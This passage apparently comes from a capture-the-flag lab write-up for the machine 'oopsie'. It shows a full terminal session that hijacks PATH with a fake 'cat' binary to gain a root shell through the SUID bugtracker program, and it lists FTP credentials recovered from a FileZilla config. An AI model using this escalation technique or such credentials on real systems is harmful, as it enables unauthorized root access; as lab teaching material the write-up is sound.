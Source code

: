 

We see that it calls the cat binary using this relative path instead of the absolute path. By creating a malicious cat, and modifying the path to include the current working directory, we should be able to abuse this misconfiguration, and escalate our privileges to root.

Let's add the current working directory to PATH, create the malicious binary and make it executable.

![image-20210308212527373](images\image-20210308212527373.png)

```
robert@oopsie:~$ export PATH=/tmp:$PATH
robert@oopsie:~$ cd /tmp
robert@oopsie:/tmp$ echo '/bin/bash' > cat
robert@oopsie:/tmp$ chmod +x cat 
robert@oopsie:/tmp$ /usr/bin/bugtracker 

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
---------------

root@oopsie:/tmp# id
uid=0(root) gid=1000(robert) groups=1000(robert),1001(bugtracker)
root@oopsie:/tmp# 
```



### Post Exploitation

Inside root's folder, we see a .config folder, which contains a FileZilla config file with the credentials ftpuser / mc@F1l3ZilL4 visible in plain text.
